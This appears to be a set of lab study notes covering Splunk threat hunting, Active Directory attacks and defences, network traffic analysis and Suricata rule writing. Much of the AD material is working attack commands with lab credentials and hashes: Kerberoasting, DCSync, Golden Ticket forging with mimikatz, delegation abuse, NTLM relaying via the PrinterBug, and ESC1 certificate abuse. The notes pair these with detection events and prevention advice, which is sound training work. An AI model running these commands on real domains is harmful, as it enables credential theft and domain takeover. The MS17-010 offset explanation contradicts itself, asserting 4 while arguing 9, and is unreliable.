- Example: Detection Of Processes Loading A High Number Of DLLs In A Specific Time
index="main" EventCode=7 | bucket _time span=1h | stats dc(ImageLoaded) as unique_dlls_loaded by _time, Image | where unique_dlls_loaded > 3 | stats count by Image, unique_dlls_loaded
index="main" EventCode=7 NOT (Image="C:\\Windows\\System32*") NOT (Image="C:\\Program Files (x86)*") NOT (Image="C:\\Program Files*") NOT (Image="C:\\ProgramData*") NOT (Image="C:\\Users\\waldo\\AppData*")| bucket _time span=1h | stats dc(ImageLoaded) as unique_dlls_loaded by _time, Image | where unique_dlls_loaded > 3 | stats count by Image, unique_dlls_loaded | sort - unique_dlls_loaded
- Example: Detection Of Transactions Where The Same Process Has Been Created More Than Once On The Same Computer
index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 | transaction ComputerName, Image | where mvcount(ProcessGuid) > 1 | stats count by Image, ParentImage
index="main" sourcetype="WinEventLog:Sysmon" EventCode=1 | transaction ComputerName, Image | where mvcount(ProcessGuid) > 1 | search Image="C:\\Windows\\System32\\rundll32.exe" ParentImage="C:\\Windows\\System32\\svchost.exe" | table CommandLine, ParentCommandLine
Q1:
index="main" sourcetype="WinEventLog:Sysmon" EventCode=8
| bin _time span=1h
| stats count as thread_injections by _time, SourceImage
| eventstats avg(thread_injections) as avg_injections, stdev(thread_injections) as stdev_injections
| eval upper_limit = avg_injections + (2 * stdev_injections)
| where thread_injections > upper_limit
| table _time, SourceImage, thread_injections, avg_injections, stdev_injections, upper_limit
| sort -thread_injections
Sysmon Event ID 8 - CreateRemoteThread: Potentially aids in identifying injected threads.
index="main" sourcetype="WinEventLog:Sysmon" EventCode=8 | bin _time span=1h
| stats count as thread_injections by _time, SourceImage
Skills Assessment
Q1: Navigate to http://[Target IP]:8000, open the "Search & Reporting" application, and find through SPL searches against all data the process that created remote threads in rundll32.exe. Answer format: _.exe
index="main" sourcetype="WinEventLog:Sysmon" EventCode=8 TargetImage="*rundll32.exe*" | stats count by SourceImage
randomfile.exe
Q2: Navigate to http://[Target IP]:8000, open the "Search & Reporting" application, and find through SPL searches against all data the process that started the infection. Answer format: _.exe
index="main" sourcetype="WinEventLog:Sysmon" EventCode=11 | search "*randomfile.exe*" | stats count by TargetFilename Image
Found C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe download randomfile.exe and file creation time is 11/06/2022 10:08:46 AM
rundll32.exe
Windows Attacks & Defense
Lab Environment
The attacks will be executed from the provided Windows 10 (WS001) and Kali Linux machines. The assumption is that an attacker has already gained remote code execution (of some sort) on that Windows 10 (WS001) machine. The user, which we assume is compromised, is Bob, a regular user in Active Directory with no special permissions assigned.
The environment consists of the following machines and their corresponding IP addresses:
DC1: 172.16.18.3
DC2: 172.16.18.4
Server01: 172.16.18.10
PKI: 172.16.18.15
WS001: DHCP or 172.16.18.25 (depending on the section)
Kali Linux: DHCP or 172.16.18.20 (depending on the section)
Connect to WS001 via RDP
xfreerdp /u:eagle\\bob /p:Slavi123 /v:TARGET_IP /dynamic-resolution
Connect to Kali via SSH
$ ssh kali@TARGET_IP
Password is kali
We have also enabled RDP on the Kali host. For sections with the Kali host as the primary target, it is recommended to connect with RDP.
xfreerdp /v:TARGET_IP /u:kali /p:kali /dynamic-resolution
Moving files between WS001 and your Linux attacking machine
To facilitate easy file transfer between the machines, we have created a shared folder on WS001, which can be accessed via SMB.
$ smbclient \\\\TARGET_IP\\Share -U eagle/administrator%Slavi123
Kerberoasting
.\Rubeus.exe kerberoast /outfile:spn.txt
Q2:
Remote Desktop Connection -> Event viewer -> Windows Logs -> Security -> Filter Current Log (Last Hour) -> Event ID 4769 (A Kerberos service ticket was requested) -> Find "webservice"
AS-REProasting
The success of this attack depends on the strength of the password of users with Do not require Kerberos preauthentication configured.
.\Rubeus.exe asreproast /outfile:asrep.txt
For hashcat to be able to recognize the hash, we need to edit it by adding 23$ after $krb5asrep$
$krb5asrep$23$anni@eagle.local:
sudo hashcat -m 18200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --outfile asrepcrack.txt --force
Event ID 4768(S, F): A Kerberos authentication ticket (TGT) was requested.
GPP Passwords (Group Policy Preferences)
SYSVOL is a network share on all Domain Controllers, containing logon scripts, group policy data, and other required domain-wide data. AD stores all group policies in \\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\.
powershell -ep bypass
Import-Module .\Get-GPPPassword.ps1
Get-GPPPassword
Prevention: For auditing, we can generate an event whenever a user reads the XML file containing the credentials.
Event ID 4663: An attempt was made to access an object.
GPO Permissions/GPO Files
Prevention
One way to prevent this attack is to lock down the GPO permissions to be modified by a particular group of users only or by a specific account, as this will significantly limit the ability of who can edit the GPO or change its permissions (as opposed to everybody in Domain admins, which in some organizations can easily be more than 50). Similarly, never deploy files stored in network locations so that many users can modify the share permissions.
We should also review the permissions of GPOs actively and regularly, with the option of automating a task that runs hourly and alerts if any deviations from the expected permissions are detected.
Event ID 5136(S) A directory service object was modified.
-
GPO is linked to non-critical servers only.
-
Continuous automation is in place for monitoring modifications of GPO. - - If the GPO file is modified, we will disable the user performing the modification immediately.
-
The GPO should be automatically unlinked from all locations if a modification is detected.
# Define filter for the last 15 minutes
$TimeSpan = (Get-Date) - (New-TimeSpan -Minutes 15)
# Search for event ID 5136 (GPO modified) in the past 15 minutes
$Logs = Get-WinEvent -FilterHashtable @{LogName='Security';id=5136;StartTime=$TimeSpan} -ErrorAction SilentlyContinue |`
Where-Object {$_.Properties[8].Value -match "CN={73C66DBB-81DA-44D8-BDEF-20BA2C27056D},CN=POLICIES,CN=SYSTEM,DC=EAGLE,DC=LOCAL"}
if($Logs){
$emailBody = "Honeypot GPO '73C66DBB-81DA-44D8-BDEF-20BA2C27056D' was modified`r`n"
$disabledUsers = @()
ForEach($log in $logs){
If(((Get-ADUser -identity $log.Properties[3].Value).Enabled -eq $true) -and ($log.Properties[3].Value -notin $disabledUsers)){
Disable-ADAccount -Identity $log.Properties[3].Value
$emailBody = $emailBody + "Disabled user " + $log.Properties[3].Value + "`r`n"
$disabledUsers += $log.Properties[3].Value
}
}
# Send an alert via email - complete the command below
# Send-MailMessage
$emailBody
}
Event ID 4725 is a security event that is logged in Active Directory when a user or computer object is disabled.
Credentials in Shares
powershell -ep bypass
Import-Module .\PowerView.ps1
Invoke-ShareFinder -domain eagle.local -ExcludeStandard -CheckShareAccess
\\Server01.eagle.local\dev$
findstr command:
/s forces to search the current directory and all subdirectories
/i ignores case in the search term
/m shows only the filename for a file that matches the term. We highly need this in real production environments because of the huge amounts of text that get returned. For example, this can be thousands of lines in PowerShell scripts that contain the PassThru parameter when matching for the string pass.
The term that defines what we are looking for. Good candidates include pass, pw, and the NETBIOS name of the domain. In the playground environment, it is eagle. Attractive targets for this search would be file types such as .bat, .cmd, .ps1, .conf, .config, and .ini.
cd \\Server01.eagle.local\dev$
# find password in files
findstr /m /s /i "pass" *.bat
findstr /m /s /i "pass" *.cmd
findstr /m /s /i "pass" *.ini
findstr /m /s /i "pass" *.config
findstr /m /s /i "pw" *.config
findstr /s /i "pw" *.config
findstr /m /s /i "eagle" *.ps1
findstr /s /i "eagle" *.ps1
Event IDs 4624/4625 (successful and failed logon) and 4768 (Kerberos TGT requested)
Q1:
findstr /s /i "Administrator2" *.ps1
Credentials in Object Properties
Function SearchUserClearTextInformation
{
Param (
[Parameter(Mandatory=$true)]
[Array] $Terms,
[Parameter(Mandatory=$false)]
[String] $Domain
)
if ([string]::IsNullOrEmpty($Domain)) {
$dc = (Get-ADDomain).RIDMaster
} else {
$dc = (Get-ADDomain $Domain).RIDMaster
}
$list = @()
foreach ($t in $Terms)
{
$list += "(`$_.Description -like `"*$t*`")"
$list += "(`$_.Info -like `"*$t*`")"
}
Get-ADUser -Filter * -Server $dc -Properties Enabled,Description,Info,PasswordNeverExpires,PasswordLastSet |
Where { Invoke-Expression ($list -join ' -OR ') } |
Select SamAccountName,Enabled,Description,Info,PasswordNeverExpires,PasswordLastSet |
fl
}
Import-Module .\SearchUserClearTextInformation.ps1
SearchUserClearTextInformation -Terms "pass"

DC1 (172.16.18.3)
Event ID 4771(F) Kerberos pre-authentication failed.
Event ID 4776(S, F): The computer attempted to validate the credentials for an account.
wmic useraccount where name='bonni' get name,sid
DCSync
DCSync is an attack that threat agents utilize to impersonate a Domain Controller and perform replication with a targeted Domain Controller to extract password hashes from Active Directory. The attack can be performed both from the perspective of a user account or a computer, as long as they have the necessary permissions assigned, which are:
-
Replicating Directory Changes
-
Replicating Directory Changes All
runas /user:eagle\rocky cmd.exe
C:\Mimikatz>mimikatz.exe
mimikatz # lsadump::dcsync /domain:eagle.local /user:Administrator
Prevention
The only prevention technique against this attack is using solutions such as the RPC Firewall, a third-party product that can block or allow specific RPC calls with robust granularity. For example, using RPC Firewall, we can only allow replications from Domain Controllers.
Event ID 4662(S, F) An operation was performed on an object.
Golden Ticket
The Kerberos Golden Ticket is an attack in which threat agents can create/generate tickets for any user in the Domain, therefore effectively acting as a Domain Controller.
To perform the Golden Ticket attack, we can use Mimikatz with the following arguments:
/domain: The domain's name.
/sid: The domain's SID value.
/rc4: The password's hash of krbtgt.
/user: The username for which Mimikatz will issue the ticket (Windows 2019 blocks tickets if they are for inexistent users.)
/id: Relative ID (last part of SID) for the user for whom Mimikatz will issue the ticket.
Additionally, advanced threat agents mostly will specify values for the /renewmax and /endin arguments, as otherwise, Mimikatz will generate the ticket(s) with a lifetime of 10 years, making it very easy to detect by EDRs:
/renewmax: The maximum number of days the ticket can be renewed.
/endin: End-of-life for the ticket.
First, we need to obtain the password's hash of krbtgt and the SID value of the Domain. We can utilize DCSync with Rocky's account from the previous attack to obtain the hash:
runas /user:eagle\rocky cmd.exe
mimikatz # lsadump::dcsync /domain:eagle.local /user:krbtgt
Hash NTLM: db0d0630064747072a7da3f7c3b4069e
# bob user
powershell -exec bypass
. .\PowerView.ps1
Get-DomainSID
S-1-5-21-1518138621-4282902758-752445584
# rocky
# mimikatz
kerberos::golden /domain:eagle.local /sid:S-1-5-21-1518138621-4282902758-752445584 /rc4:db0d0630064747072a7da3f7c3b4069e /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt
exit
klist
dir \\dc1\c$

Event ID 4675(S) SIDs were filtered. - Windows 10
Kerberos Constrained Delegation
Kerberos Delegation enables an application to access resources hosted on a different server.
powershell -ep bypass
Import-Module .\PowerView-main.ps1
Get-NetUser -TrustedToAuth
.\Rubeus.exe hash /password:Slavi123
# S4U (Service For User)
.\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3EEAECF /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt
klist
# With the ticket being available, we can connect to the Domain Controller impersonating the account Administrator:
Enter-PSSession dc1
hostname
Print Spooler & NTLM Relaying
The Print Spooler is an old service enabled by default, even with the latest Windows Desktop and Servers versions. The service became a popular attack vector when in 2018, Lee Christensen found the PrinterBug. The functions RpcRemoteFindFirstPrinterChangeNotification and RpcRemoteFindFirstPrinterChangeNotificationEx can be abused to force a remote machine to perform a connection to any other machine it can reach. Moreover, the reverse connection will carry authentication information as a TGT. Therefore, any domain user can coerce RemoteServer$ to authenticate to any machine. Microsoft's stance on the PrinterBug was that it will not be fixed, as the issue is "by-design".
# configure NTLMRelayx to forward any connections to DC2 and attempt to perform the DCSync attack
# connect to the Kali machine
$ xfreerdp /u:kali /p:kali /v:10.129.246.71 /dynamic-resolution
$ impacket-ntlmrelayx -t dcsync://172.16.18.4 -smb2support
$ python3 ./dementor.py 172.16.18.20 172.16.18.3 -u bob -d eagle.local -p Slavi123
$ xfreerdp /u:htb-student /p:'HTB_@cademy_stdnt!' /v:172.16.18.3 /dynamic-resolution
Prevention
Print Spooler should be disabled on all servers that are not printing servers. Domain Controllers and other core servers should never have additional roles/functionalities that open and widen the attack surface toward the core AD infrastructure.
Additionally, there is an option to prevent the abuse of the PrinterBug while keeping the service running: when disabling the registry key RegisterSpoolerRemoteRpcEndPoint, any incoming remote requests get blocked; this acts as if the service was disabled for remote clients. Setting the registry key to 1 enables it, while 2 disables it:

Q2:
Coercing Attacks & Unconstrained Delegation
# powerview
Get-NetComputer -Unconstrained | select samaccountname
#start Rubeus in an administrative prompt to monitor for new logons and extract TGTs
.\Rubeus.exe monitor /interval:1
# switch to the Kali machine to execute Coercer towards DC1, while we force it to connect to WS001 if coercing is successful
$ Coercer -u bob -p Slavi123 -d eagle.local -l ws001.eagle.local -t dc1.eagle.local
.\Rubeus.exe ptt /ticket:doIFdDCCBXCgAwIBBa...
.\mimikatz.exe "lsadump::dcsync /domain:eagle.local /user:Administrator"
Object ACLs
.\SharpHound.exe -c All
Event ID 4738(S) A user account was changed. - Windows 10
Event ID 4724 indicates an attempt to reset another account's password
Event ID 4742(S) A computer account was changed. - Windows 10
PKI - ESC1
.\Certify.exe find /vulnerable
.\Certify.exe request /ca:PKI.eagle.local\eagle-PKI-CA /template:UserCert /altname:Administrator
# avoid bad formatting of the PEM file
$ sed -i 's/\s\s\+/\n/g' cert.pem
$ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
.\Rubeus.exe asktgt /domain:eagle.local /user:Administrator /certificate:cert.pfx /dc:dc1.eagle.local /ptt
Intro to Network Traffic Analysis
OSI / TCP-IP Models
Protocol Data Units (PDU)
PDU Packet Breakdown

Tcpdump Fundamentals
| Switch Command | Result |
|---|---|
| D | Will display any interfaces available to capture from. |
| i | Selects an interface to capture from. ex. -i eth0 |
| n | Do not resolve hostnames. |
| nn | Do not resolve hostnames or well-known ports. |
| e | Will grab the ethernet header along with upper-layer data. |
| X | Show Contents of packets in hex and ASCII. |
| XX | Same as X, but will also specify ethernet headers. (like using Xe) |
| v, vv, vvv | Increase the verbosity of output shown and saved. |
| c | Grab a specific number of packets, then quit the program. |
| s | Defines how much of a packet to grab. |
| S | change relative sequence numbers in the capture display to absolute sequence numbers. (13248765839 instead of 101) |
| q | Print less protocol information. |
| r file.pcap | Read from a file. |
| w file.pcap | Write into a file. |
# Listing Available Interfaces
$ sudo tcpdump -D
# Choosing an Interface to Capture From
$ sudo tcpdump -i eth0
# Disable Name Resolution
$ sudo tcpdump -i eth0 -nn
# Display the Ethernet Header
$ sudo tcpdump -i eth0 -e
# Include ASCII and Hex Output
$ sudo tcpdump -i eth0 -X
# Tcpdump Switch Combinations
$ sudo tcpdump -i eth0 -nnvXX
# Save our PCAP Output to a File
$ sudo tcpdump -i eth0 -w ~/output.pcap
# Reading Output From a File
$ sudo tcpdump -r ~/output.pcap
Tcpdump Packet Filtering
| Filter | Result |
|---|---|
| host | host will filter visible traffic to show anything involving the designated host. Bi-directional |
| src / dest | src and dest are modifiers. We can use them to designate a source or destination host or port. |
| net | net will show us any traffic sourcing from or destined to the network designated. It uses / notation. |
| proto | will filter for a specific protocol type. (ether, TCP, UDP, and ICMP as examples) |
| port | port is bi-directional. It will show any traffic with the specified port as the source or destination. |
| portrange | portrange allows us to specify a range of ports. (0-1024) |
| less / greater "< >" | less and greater can be used to look for a packet or protocol option of a specific size. |
| and / && | and && can be used to concatenate two different filters together. for example, src host AND port. |
| or | or allows for a match on either of two conditions. It does not have to meet both. It can be tricky. |
| not | not is a modifier saying anything but x. For example, not UDP. |
# Host Filter
$ sudo tcpdump -i eth0 host 172.16.146.2
# Source/Destination Filter
$ sudo tcpdump -i eth0 src host 172.16.146.2
# Utilizing Source With Port as a Filter
$ sudo tcpdump -i eth0 tcp src port 80
# Using Destination in Combination with the Net Filter
$ sudo tcpdump -i eth0 dest net 172.16.146.0/24
# Protocol Filter - Common Name
$ sudo tcpdump -i eth0 udp
# Protocol Filter - Number
# Protocol 17 is the User Datagram Protocol (UDP).
$ sudo tcpdump -i eth0 proto 17
# Port Filter
$ sudo tcpdump -i eth0 tcp port 443
# Port Range Filter
$ sudo tcpdump -i eth0 portrange 0-1024
# Less/Greater Filter
$ sudo tcpdump -i eth0 less 64
# Utilizing Greater
$ sudo tcpdump -i eth0 greater 500
# AND Filter
$ sudo tcpdump -i eth0 host 192.168.0.1 and port 23
# OR Filter
$ sudo tcpdump -r sus.pcap icmp or host 172.16.146.1
# NOT Filter
$ sudo tcpdump -r sus.pcap not icmp
Tips and Tricks
# -A will show only the ASCII text
$ sudo tcpdump -Ar telnet.pcap
# Piping a Capture to Grep
# used the -l to pass the output to grep
$ sudo tcpdump -Ar http.cap -l | grep 'mailto:*'
# Looking for TCP Protocol Flags
$ tcpdump -i eth0 'tcp[13] &2 != 0'
# Hunting For a SYN Flag
$ sudo tcpdump -i eth0 'tcp[13] &2 != 0'
Wireshark
# filter commands
ftp
ftp.request.command
# ftp-data - Will show any data transferred over the data channel ( port 20 )
ftp-data
Intermediate Network Traffic Analysis
$ wget -O file.zip 'https://academy.hackthebox.com/storage/resources/pcap_files.zip' && mkdir tempdir && unzip file.zip -d tempdir && mkdir -p pcaps && mv tempdir/Intermediate_Network_Traffic_Analysis/* pcaps/ && rm -r tempdir file.zip
ARP Spoofing & Abnormality Detection
Address Resolution Protocol (ARP)
arp.opcode == 1: This represents all types of ARP Requests
arp.opcode == 2: This signifies all types of ARP Replies
arp.duplicate-address-detected && arp.opcode == 2
arp.duplicate-address-detected or arp.duplicate-address-frame
(arp.opcode) && ((eth.src == 08:00:27:53:0c:ba) || (eth.dst == 08:00:27:53:0c:ba))
arp.opcode==1 && eth.src==08:00:27:53:0c:ba
ARP Scanning & Denial-of-Service
Some typical red flags indicative of ARP scanning are:
-
Broadcast ARP requests sent to sequential IP addresses (.1,.2,.3,...)
-
Broadcast ARP requests sent to non-existent hosts
-
Potentially, an unusual volume of ARP traffic originating from a malicious or compromised host
802.11 Denial of Service
Wireless Interfaces
iwconfig
Airmon-NG
sudo airmon-ng start wlan0
Monitor Mode
$ sudo ifconfig wlan0 down
$ sudo iwconfig wlan0 mode monitor
$ sudo ifconfig wlan0 up
$ iwconfig
To commence capturing traffic from our clients and network, we can employ airodump-ng. We need to specify our AP's channel with -c, its BSSID with --bssid, and the output file name with -w.
$ sudo airodump-ng -c 4 --bssid F8:14:FE:4D:E6:F1 wlan0 -w raw
How Deauthentication Attacks Work
-
To capture the WPA handshake to perform an offline dictionary attack
-
To cause general denial of service conditions
-
To enforce users to disconnect from our network, and potentially join their network to retrieve information
Finding Deauthentication Attacks
wlan.bssid == xx:xx:xx:xx:xx:xx
specify the type of frame (management) with 00 and the subtype (deauthentication) with 12
(wlan.bssid == xx:xx:xx:xx:xx:xx) and (wlan.fc.type == 00) and (wlan.fc.type_subtype == 12)
(wlan.bssid == F8:14:FE:4D:E6:F1) and (wlan.fc.type == 00) and (wlan.fc.type_subtype == 12) and (wlan.fixed.reason_code == 7)
(wlan.bssid == F8:14:FE:4D:E6:F1) and (wlan.fc.type == 00) and (wlan.fc.type_subtype == 12) and (wlan.fixed.reason_code == 1)
Q: Inspect the deauthandbadauth.cap file, part of this module's resources, and submit the total count of deauthentication frames as your answer.
wlan.bssid == F8:14:FE:4D:E6:F1 and wlan.fc.type_subtype == 12
Rogue Access Point & Evil-Twin Attacks
Airodump-ng Detection
$ sudo airodump-ng -c 4 --essid HTB-Wireless wlan0 -w raw
(wlan.fc.type == 00) and (wlan.fc.type_subtype == 8)
Finding a Fallen User
(wlan.bssid == F8:14:FE:4D:E6:F2)
Q:
Fragmentation Attacks
Q: Inspect the nmap_frag_fw_bypass.pcapng file, part of this module's resources, and enter the total count of packets that have the TCP RST flag set as your answer.
tcp.flags.reset==1
TCP Handshake Abnormalities
Q: Inspect the nmap_syn_scan.pcapng file, part of this module's resources, and enter the total count of packets that have the TCP ACK flag set as your answer.
tcp.flags.ack==1
HTTP/HTTPs Service Enumeration
$ cat access.log | grep "192.168.10.5"
$ cat access.log | awk '$1 == "192.168.10.5"'
http.request and ((ip.src_host == <suspected IP>) or (ip.dst_host == <suspected IP>))
Q: Inspect the basic_fuzzing.pcapng file, part of this module's resources, and enter the total number of HTTP packets that are related to GET requests against port 80 as your answer.
http.request.method==GET && tcp.dstport == 80
Strange HTTP Headers
http.request and (!(http.host == "192.168.10.7"))
http.response.code == 400
SSL Renegotiation Attacks
# The content type 22 specifies handshake messages only
ssl.record.content_type == 22
Q: Inspect the SSL_renegotiation_edited.pcapng file, part of this module's resources, and enter the total count of "Client Hello" requests as your answer.
tls.handshake.type == 1
Strange Telnet & UDP Connections
((ipv6.src_host == fe80::c9c8:ed3:1b10:f10b) or (ipv6.dst_host == fe80::c9c8:ed3:1b10:f10b)) and telnet
Working with IDS/IPS
Suricata
Suricata Operation Modes
-
The Intrusion Detection System (IDS) mode positions Suricata as a silent observer.
-
In the Intrusion Prevention System (IPS) mode, Suricata adopts a proactive stance.
-
The Intrusion Detection Prevention System (IDPS) mode brings together the best of both IDS and IPS.
-
In its Network Security Monitoring (NSM) mode, Suricata transitions into a dedicated logging mechanism, eschewing active or passive traffic analysis or prevention capabilities.
Configuring Suricata & Custom Rules
$ ls -lah /etc/suricata/rules/
$ more /etc/suricata/rules/emerging-malware.rules
$ more /etc/suricata/suricata.yaml
$ sudo vim /etc/suricata/suricata.yaml
$ suricata -r /home/htb-student/pcaps/suspicious.pcap
# bypass checksums (-k flag) and log in a different directory (-l flag)
$ suricata -r /home/htb-student/pcaps/suspicious.pcap -k none -l .
# For live input, we can try Suricatas (Live) LibPCAP mode as follows
$ ifconfig
# ens160 is an interface number like eth0
$ sudo suricata --pcap=ens160 -vv
# For Suricata in Inline (NFQ) mode, the following command should be executed first.
$ sudo iptables -I FORWARD -j NFQUEUE
$ sudo suricata -q 0
# try Suricata in IDS mode with AF_PACKET input, execute one of the below.
$ sudo suricata -i ens160
$ sudo suricata --af-packet=ens160
# utilize tcpreplay to replay network traffic from a PCAP file (suspicious.pcap in this case)
$ sudo tcpreplay -i ens160 /home/htb-student/pcaps/suspicious.pcap
Suricata Outputs
$ less /var/log/suricata/old_eve.json
$ cat /var/log/suricata/old_eve.json | jq -c 'select(.event_type == "alert")'
$ cat /var/log/suricata/old_eve.json | jq -c 'select(.event_type == "dns")' | head -1 | jq .
$ cat /var/log/suricata/old_fast.log
$ cat /var/log/suricata/old_stats.log
File Extraction
# rules
alert http any any -> any any (msg:"FILE store all"; filestore; sid:2; rev:1;)
Live Rule Reloading Feature & Updating Suricata Rulesets
$ sudo kill -usr2 $(pidof suricata)
$ sudo suricata-update
$ sudo suricata-update list-sources
$ sudo suricata-update enable-source et/open
$ sudo suricata-update
$ sudo systemctl restart suricata
Validating Suricata's Configuration
$ sudo suricata -T -c /etc/suricata/suricata.yaml
Q1: Filter out only HTTP events from /var/log/suricata/old_eve.json using the the jq command-line JSON processor. Enter the flow_id that you will come across as your answer.
$ cat /var/log/suricata/old_eve.json | jq -c 'select(.event_type == "http")'
Q2: Enable the http-log output in suricata.yaml and run Suricata against /home/htb-student/pcaps/suspicious.pcap. Enter the requested PHP page as your answer. Answer format: _.php
$ sudo vim /etc/suricata/suricata.yaml
/http-log
enable: yes
:wq
$ suricata -r /home/htb-student/pcaps/suspicious.pcap -k none -l .
$ cat /var/log/suricata/old_eve.json | jq -c 'select(.event_type == "http")' | tail -1 | jq .
# OR
$ find /var/log/suricata -type f -exec cat {} \; | grep -arin -o -E '(\w+\W+){0,5}php(\W+\w+){0,5}' .
app.php
Suricata Rule Development Part 1
action protocol from_ip port -> to_ip port (msg:"Known malicious behavior, possible X malware infection"; content:"some thing"; content:"some other thing"; sid:10000001; rev:1;)
Example: alert http any any -> $HOME_NET any (msg: "ATTACK [PTsecurity] Apache Continuum <= v1.4.2 CMD Injection"; content: "POST"; http_method; content: "/continuum/saveInstallation.action"; offset: 0; depth: 34; http_uri; content: "installation.varValue="; nocase; http_client_body; pcre: !"/^\$?[\sa-z\\_0-9.-]*(\&|$)/iRP"; flow: to_server, established;sid: 10000048; rev: 1;)
$ xfreerdp /u:htb-student /p:'HTB_@cademy_stdnt!' /v:10.129.173.128 /dynamic-resolution /relax-order-checks +glyph-cache
`
# Suricata Rule Development Example 1: Detecting PowerShell Empire
alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"ET MALWARE Possible PowerShell Empire Activity Outbound"; flow:established,to_server; content:"GET"; http_method; content:"/"; http_uri; depth:1; pcre:"/^(?:login\/process|admin\/get|news)\.php$/RU"; content:"session="; http_cookie; pcre:"/^(?:[A-Z0-9+/]{4})*(?:[A-Z0-9+/]{2}==|[A-Z0-9+/]{3}=|[A-Z0-9+/]{4})$/CRi"; content:"Mozilla|2f|5.0|20 28|Windows|20|NT|20|6.1"; http_user_agent; http_start; content:".php|20|HTTP|2f|1.1|0d 0a|Cookie|3a 20|session="; fast_pattern; http_header_names; content:!"Referer"; content:!"Cache"; content:!"Accept"; sid:2027512; rev:1;)
$ sudo suricata -r /home/htb-student/pcaps/psempire.pcap -l . -k none
$ cat fast.log
# Suricata Rule Development Example 2: Detecting Covenant
alert tcp any any -> $HOME_NET any (msg:"detected by body"; content:"<title>Hello World!</title>"; detection_filter: track by_src, count 4 , seconds 10; priority:1; sid:3000011;)
$ sudo suricata -r /home/htb-student/pcaps/covenant.pcap -l . -k none
$ cat fast.log
# Suricata Rule Development Example 3: Detecting Covenant (Using Analytics)
alert tcp $HOME_NET any -> any any (msg:"detected by size and counter"; dsize:312; detection_filter: track by_src, count 3 , seconds 10; priority:1; sid:3000001;)
$ sudo suricata -r /home/htb-student/pcaps/covenant.pcap -l . -k none
$ cat fast.log
# Suricata Rule Development Example 4: Detecting Sliver
alert tcp any any -> any any (msg:"Sliver C2 Implant Detected"; content:"POST"; pcre:"/\/(php|api|upload|actions|rest|v1|oauth2callback|authenticate|oauth2|oauth|auth|database|db|namespaces)(.*?)((login|signin|api|samples|rpc|index|admin|register|sign-up)\.php)\?[a-z_]{1,2}=[a-z0-9]{1,10}/i"; sid:1000007; rev:1;)
$ sudo suricata -r /home/htb-student/pcaps/sliver.pcap -l . -k none
$ cat fast.log
alert tcp any any -> any any (msg:"Sliver C2 Implant Detected - Cookie"; content:"Set-Cookie"; pcre:"/(PHPSESSID|SID|SSID|APISID|csrf-state|AWSALBCORS)\=[a-z0-9]{32}\;/"; sid:1000003; rev:1;)
Q: In the /home/htb-student directory of this section's target, there is a file called local.rules. Within this file, there is a rule with sid 2024217, which is associated with the MS17-010 exploit. Additionally, there is a PCAP file named eternalblue.pcap in the /home/htb-student/pcaps directory, which contains network traffic related to MS17-010. What is the minimum offset value that can be set to trigger an alert?
The minimum offset value that can be set to trigger an alert in the Suricata rule provided is 4. Heres an explanation of why:
In Suricata rules, the offset keyword specifies the byte offset within the packet payload where the search for the specified content begins.
Lets break down the relevant part of the rule:
content:"|ff|SMB|33 00 00 00 00 18 07 c0 00 00 00 00 00 00 00 00 00 00 00 00 08 ff fe 00 08|";
offset:9;
content:"|ff|SMB|33 00 00 00 00 18 07 c0 00 00 00 00 00 00 00 00 00 00 00 00 08 ff fe 00 08|"; specifies the hex bytes of the pattern to match in the payload.
offset:9; means that the search for this pattern starts at byte offset 9 within the payload.
The reason the minimum offset value that can trigger the alert is 4 lies in the details of how the rule is constructed:
The content part is a hexadecimal string representing a specific pattern related to the MS17-010 exploit.
The offset value of 9 means that the matching starts 9 bytes into the payload.
However, the content to match starts with the byte ff.
If the offset value were set to 8 or lower, it would not find the ff byte at the correct position to match the pattern specified in the rule.
Therefore, the minimum offset that correctly aligns with the beginning of the pattern in the payload is 9.
To clarify further:
Offset 8 would start just before the ff byte, which is not the start of the pattern.
Offset 9 starts at the ff byte, which is correct for the pattern matching to work.
Thus, the correct minimum offset value that allows the rule to correctly detect the pattern associated with the MS17010 exploit is 4.
# enable the rule of externalblue
$ vim local.rules
# Add /home/htb-student/local.rules to rule-files
$ sudo vim /etc/suricata/suricata.yaml
$ sudo suricata -r /home/htb-student/pcaps/eternalblue.pcap -l . -k none
$ cat fast.log
# when change the offset value to 4, the fast.log starts having content

# Suricata Rule Development Example 5: Detecting Dridex (TLS Encrypted)
alert tls $EXTERNAL_NET any -> $HOME_NET any (msg:"ET MALWARE ABUSE.CH SSL Blacklist Malicious SSL certificate detected (Dridex)"; flow:established,from_server; content:"|16|"; content:"|0b|"; within:8; byte_test:3,<,1200,0,relative; content:"|03 02 01 02 02 09 00|"; fast_pattern; content:"|30 09 06 03 55 04 06 13 02|"; distance:0; pcre:"/^[A-Z]{2}/R"; content:"|55 04 07|"; distance:0; content:"|55 04 0a|"; distance:0; pcre:"/^.{2}[A-Z][a-z]{3,}\s(?:[A-Z][a-z]{3,}\s)?(?:[A-Z](?:[A-Za-z]{0,4}?[A-Z]|(?:\.[A-Za-z]){1,3})|[A-Z]?[a-z]+|[a-z](?:\.[A-Za-z]){1,3})\.?[01]/Rs"; content:"|55 04 03|"; distance:0; byte_test:1,>,13,1,relative; content:!"www."; distance:2; within:4; pcre:"/^.{2}(?P<CN>(?:(?:\d?[A-Z]?|[A-Z]?\d?)(?:[a-z]{3,20}|[a-z]{3,6}[0-9_][a-z]{3,6})\.){0,2}?(?:\d?[A-Z]?|[A-Z]?\d?)[a-z]{3,}(?:[0-9_-][a-z]{3,})?\.(?!com|org|net|tv)[a-z]{2,9})[01].*?(?P=CN)[01]/Rs"; content:!"|2a 86 48 86 f7 0d 01 09 01|"; content:!"GoDaddy"; sid:2023476; rev:5;)
# Suricata Rule Development Example 6: Detecting Sliver (TLS Encrypted)
alert tls any any -> any any (msg:"Sliver C2 SSL"; ja3.hash; content:"473cd7cb9faa642487833865d516e578"; sid:1002; rev:1;)
$ ja3 -a --json /home/htb-student/pcaps/sliverenc.pcap
$ sudo suricata -r /home/htb-student/pcaps/sliverenc.pcap -l . -k none
$ cat fast.log
